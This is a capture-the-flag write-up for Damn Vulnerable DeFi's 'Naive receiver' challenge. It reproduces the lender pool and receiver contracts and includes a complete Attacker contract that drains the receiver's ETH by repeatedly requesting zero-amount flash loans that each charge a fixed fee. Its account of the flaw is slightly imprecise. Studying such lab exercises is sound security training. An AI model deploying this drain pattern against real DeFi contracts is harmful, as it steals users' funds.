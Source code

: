 # Naive receiver

FlashLoanReceiver.sol

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver is IERC3156FlashBorrower {

    address private pool;
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    error UnsupportedCurrency();

    constructor(address _pool) {
        pool = _pool;
    }

    function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }

    // Allow deposits of ETH
    receive() external payable {}
}
```

NaiveReceiverLenderPool.sol

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "solady/src/utils/SafeTransferLib.sol";
import "./FlashLoanReceiver.sol";

/**
 * @title NaiveReceiverLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract NaiveReceiverLenderPool is ReentrancyGuard, IERC3156FlashLender {

    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    error RepayFailed();
    error UnsupportedCurrency();
    error CallbackFailed();

    function maxFlashLoan(address token) external view returns (uint256) {
        if (token == ETH) {
            return address(this).balance;
        }
        return 0;
    }

    function flashFee(address token, uint256) external pure returns (uint256) {
        if (token != ETH)
            revert UnsupportedCurrency();
        return FIXED_FEE;
    }

    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }

    // Allow deposits of ETH
    receive() external payable {}
}
```

## Goal

Take all ETH out of the user’s (FlashLoanReceiver) contract in a single transaction.

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

The vulnerable part of the code is located in the NaiveReceiverLenderPool contract, inside the flashLoan() function.

Instead of relying on the balance of ether (address(this).balance) inside the NaiveReceiverLenderPool contract, we rely on an arbitrary amount of ETH, that can be set on function call, as eth balance to send to the borrower contract (FlashLoanReceiver).

This way we can call the flashLoan() function with 0 as amount, and after calculating the fee and after the loan has been settled, this will leave the borrower with 1 eth less. Repeating this operation for 10 times will leave the borrower with 0 ether.

In order to this in one transaction we can create Attacker contract, and call the flashLoan() function from NaiveReceiverLenderPool in a for loop for 10 times.

To exploit the contract we need to:

1. create Attacker contract, and create instances from the NaiveReceiverLenderPool and FlashLoanReceiver contracts inside the Attacker contract
2. in the constructor of the Attacker contract, in a for loop, call the flashLoan() function from NaiveReceiverLenderPool contract, set FlashLoanReceiver as borrower and set amount to be 0.

## Attacker contract code

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";
import "./FlashLoanReceiver.sol";

contract Attacker {

    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    NaiveReceiverLenderPool private immutable pool;
    FlashLoanReceiver private immutable vulnerableReceiver;

    constructor(NaiveReceiverLenderPool _pool, FlashLoanReceiver _vulnerableReceiver) {
        pool = NaiveReceiverLenderPool(_pool);
        vulnerableReceiver = FlashLoanReceiver(_vulnerableReceiver);

        for(uint256 i = 0; i < 10; i++) {
            pool.flashLoan(
                IERC3156FlashBorrower(vulnerableReceiver),
                ETH,
                0,
                ""
            );
        }
    }

    receive() external payable {}
}
```